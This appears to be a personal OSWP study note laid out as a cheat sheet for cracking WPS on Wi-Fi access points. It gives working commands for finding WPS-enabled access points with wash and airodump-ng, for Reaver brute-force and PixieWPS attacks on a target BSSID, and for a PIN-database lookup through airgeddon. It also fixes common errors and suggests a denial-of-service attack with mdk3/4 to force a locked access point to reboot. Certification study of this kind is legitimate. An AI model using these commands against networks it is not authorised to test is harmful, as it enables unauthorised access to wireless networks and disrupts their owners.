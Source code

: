 ```yaml
---
{"dg-publish":true,"permalink":"/oswp/e-wps-cracking/"}
---
```


----------------
### Scan for APs with WPS:
- Using Wash:
```
wash -i wlan0mon
```
- Add -5 for 5GHz
- _Lck_ indicates if WPS is locked, i.e. attack is pointless at that time
- Using Airodump:
```
sudo airodump-ng wlan0mon --wps
```

-----------
### Reaver default attack:
```
sudo reaver -b 34:08:04:09:3D:38 -i wlan0mon -v
```
- If Reaver won't switch channels and is stuck on "Waiting for beacon from..." add the -c parameter and specify the channel
- Test for empy pin: -p
--------------
### PixieWPS attack:
```
sudo reaver -b 34:08:04:09:3D:38 -i wlan0mon -v -K
```

-------------------------
### BSSID-dependent PIN attack:
1. Load PINs into memory:
```
source /usr/share/airgeddon/known_pins.db
```
2. Check database for first six characters of BSSID:
```
echo ${PINDB["0013F7"]}
```
3. Verify outputted PINs

----
### Common errors:
Problem: Trying PixieWPS PIN with reaver:
```
[!] WPS transaction failed (code: 0x03), re-trying last pin
```
Solution: Restart reaver without PixieWPS option or try alternative wireless card.

Problem: Reaver may keep trying the same PIN in verbose mode:
```
[+] Sending identity response
[+] Received identity request
```
Solution: Try different wireless card with different chipset.

Problem: WPS is locked
Solution: Perform DoS using mdk3/4 or other to make AP reboot